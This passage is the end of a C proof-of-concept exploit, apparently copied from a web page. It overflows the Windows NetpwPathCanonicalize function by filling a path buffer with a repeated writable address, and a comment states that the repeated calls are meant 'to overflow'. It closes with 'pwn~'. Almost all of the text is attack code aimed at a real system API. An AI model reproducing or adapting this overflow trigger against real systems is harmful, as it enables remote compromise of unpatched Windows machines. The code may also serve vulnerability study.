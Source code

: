 ```
	PathName2[0x2B2] = 0x10;		// 以下5个可写地址
	PathName2[0x2B3] = 0xF2;
	PathName2[0x2B4] = 0xFD;
	PathName2[0x2B5] = 0x7F;

	PathName2[0x2B6] = 0x10;
	PathName2[0x2B7] = 0xF2;
	PathName2[0x2B8] = 0xFD;
	PathName2[0x2B9] = 0x7F;

	PathName2[0x2BA] = 0x10;
	PathName2[0x2BB] = 0xF2;
	PathName2[0x2BC] = 0xFD;
	PathName2[0x2BD] = 0x7F;

	PathName2[0x2BE] = 0x10;
	PathName2[0x2BF] = 0xF2;
	PathName2[0x2C0] = 0xFD;
	PathName2[0x2C1] = 0x7F;

	PathName2[0x2C2] = 0x10;
	PathName2[0x2C3] = 0xF2;
	PathName2[0x2C4] = 0xFD;
	PathName2[0x2C5] = 0x7F;

    // set Prefix as a null string
	memset(Prefix1,0,sizeof(Prefix1));
	memset(Prefix2,0,sizeof(Prefix2));

    // call NetpwPathCanonicalize several times to overflow
	(Trigger)(PathName1,Outbuf,1        ,Prefix1,&PathType1,0);
	(Trigger)(PathName2,Outbuf,OutbufLen,Prefix2,&PathType2,0);

	FreeLibrary(LibHandle);

	return 0;
}
```

pwn~
